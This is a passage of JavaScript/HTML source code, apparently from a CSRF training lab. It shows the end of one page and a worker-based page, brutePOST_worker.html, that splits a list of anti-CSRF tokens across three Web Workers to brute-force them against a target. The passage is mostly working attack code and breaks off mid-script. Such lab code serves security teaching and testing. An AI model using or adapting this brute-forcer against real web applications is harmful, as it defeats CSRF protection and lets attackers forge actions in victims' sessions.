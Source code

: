 ```js
            queryParams = Object.keys(params).reduce(function (a, k) {
               a.push(k + '=' + encodeURIComponent(params[k]));
               return a
            }, []).join('&');
            http.send(queryParams);
         }

         var tokens = document.getElementById('tokens').value.replace(/\s+/gm, '\n').split('\n');
         tokens = tokens.filter(Boolean); // Remove empty lines

         // Brute Loop
         bruteLoop(tokens);
      </script>
   </body>
</html>


```






#### brutePOST_worker.html
```js
<html>
   <body>
      <h1>Anti-CSRF Tokens to test</h1>
      <textarea id="tokens" rows="12" cols="60">
         00411460f7c92d2124a67ea0f4cb5f85
      </textarea>
      <br>
      <h1>Workers results</h1>
      <span id="workers"></span>

      <script>
         function startBlock(worker, tokens) {
            worker.postMessage({
               'tokens': tokens
            });
         }

         var bruterPath = "csrf.labs.bruter.js";

         var ww1 = new Worker(bruterPath);
         ww1.addEventListener('message', function (e) {
            document.getElementById("workers").innerHTML += "<b>ww1</b> says: " + e.data + "<br>";
         }, false);

         var ww2 = new Worker(bruterPath);
         ww2.addEventListener('message', function (e) {
            document.getElementById("workers").innerHTML += "<b>ww2</b> says: " + e.data + "<br>";
         }, false);

         var ww3 = new Worker(bruterPath);
         ww3.addEventListener('message', function (e) {
            document.getElementById("workers").innerHTML += "<b>ww3</b> says: " + e.data + "<br>";
         }, false);

         var tokens = document.getElementById('tokens').value.replace(/\s+/gm, '\n').split('\n');
         tokens = tokens.filter(Boolean);

         startBlock(ww1, tokens.slice(0, 333));
         startBlock(ww2, tokens.slice(333, 666));
```